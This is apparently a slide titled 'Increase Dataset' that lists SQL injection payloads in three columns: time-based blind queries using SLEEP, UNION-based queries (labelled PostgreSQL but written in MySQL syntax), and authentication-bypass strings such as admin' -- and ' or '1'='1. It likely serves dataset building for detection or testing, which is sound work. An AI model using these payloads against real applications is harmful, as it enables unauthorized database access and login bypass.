

Increase Dataset
| Blind SQL payloads | Union payloads Postgre SQL | Sql injection Auth bypass Payloads |
| --- | --- | --- |
| SELECT IF(1=1, SLEEP(5), 0)-- | UNION ALL SELECT 1,2,3,4,5,6,7,8,9# | admin' -- admin' # admin'/\* |
| Id= 500 Union Select Sleep(5)-- | UNION SELECT @@VERSION,SLEEP(5),USER()# | Admin’ or ‘1’=’1 Admin’ or ‘1’=’1’— Admin’ or ‘1’=’1’# |
| (SELECT \*FROM (SELECT(SLEEP(5)))ecMj)-- | UNION SELECT @@VERSION,SLEEP(5)# | '\*' '&' '-' '^' |